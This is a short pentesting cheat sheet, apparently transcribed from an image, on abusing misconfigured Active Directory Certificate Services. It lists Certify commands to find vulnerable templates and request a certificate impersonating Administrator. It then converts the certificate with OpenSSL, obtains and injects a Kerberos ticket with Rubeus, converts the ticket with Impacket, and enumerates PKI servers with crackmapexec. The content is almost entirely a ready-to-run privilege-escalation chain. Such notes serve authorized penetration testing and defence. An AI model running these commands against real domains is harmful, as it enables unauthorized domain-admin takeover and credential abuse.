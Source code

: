 # ADCS


https://exploit-notes.hdks.org/exploit/windows/active-directory/ad-cs-pentesting/


# 1. Find
Certify.exe find /vulnerable

Certify.exe request /ca:dc.examle.com\example-CA /template:TemplateName /altname:Administrator
# Copy the cert.pem in the output then paste it to the cert.pem
vim cert.pem

# Convert PEM to PFX
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Request the TGT
Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /ptt
# if you gave the password for "cert.pfx", you need to specify the password
Rubeus.exe asktgt /user:Administrator /password:password123 /certificate:cert.pfx /ptt
# or output the file
Rubeus.exe asktgt /user:Administrator /certificate:<Thumbprint> /outfile:ticket.kirbi

impacket-ticketConverter ticket.kirbi ticke.ccache


List all PKI enrollment Server
crackmapexec run ldap <ip> -u user -p pass -M adcs

List all certificates inside a PKI
crackmapexec run ldap <ip> -u user -p pass -M adcs -o SERVER=xxxx

